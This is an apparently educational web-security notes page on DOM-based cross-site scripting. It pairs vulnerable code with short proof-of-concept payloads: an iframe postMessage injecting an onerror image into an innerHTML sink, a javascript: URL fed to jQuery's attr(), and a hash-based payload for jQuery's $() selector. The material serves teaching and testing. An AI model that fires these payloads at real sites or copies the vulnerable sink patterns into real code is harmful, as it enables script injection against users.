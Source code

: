 ### DOM-based web message

```html
<!-- Vulnerable website -->
<script>
    window.addEventListener('message', function(e) {
        document.getElementById('test').innerHTML = e.data;
    })
</script>
```

Exploit

```html
<iframe src=https://vuln.website/ onload='this.contentWindow.postMessage("<img src=1 onerror=print()>","*")'>
```

### jQuery

jQuery's `attr()` function can change the attributes of DOM elements

```javascript
$(function() {
	$('#backLink').attr("href",(new URLSearchParams(window.location.search)).get('returnUrl'));
});
```

Exploit

```sh
?returnUrl=javascript:alert(document.domain)
```

***

jQuery's `$()` selector function in another potential sink. If you open the browser console and type `$('<img src=x onerror=alert()>')` jQuery creates this new element (so the alert will be shown)

An example:

```javascript
$(window).on('hashchange', function() {
	var element = $(location.hash);
	element[0].scrollIntoView();
});
```

Exploit

```html
<iframe src="https://vulnerable-website.com#" onload="this.src+='<img src=1 onerror=alert(1)>'">
```

{{< hint style=notes >}}
**Note**: Recent versions of jQuery have patched this specific vulnerability by preventing HTML injection into a selector if the input begins with a hash (#). But remember, this is just an example, the real problem is how `$()` selector works .
{{< /hint >}}
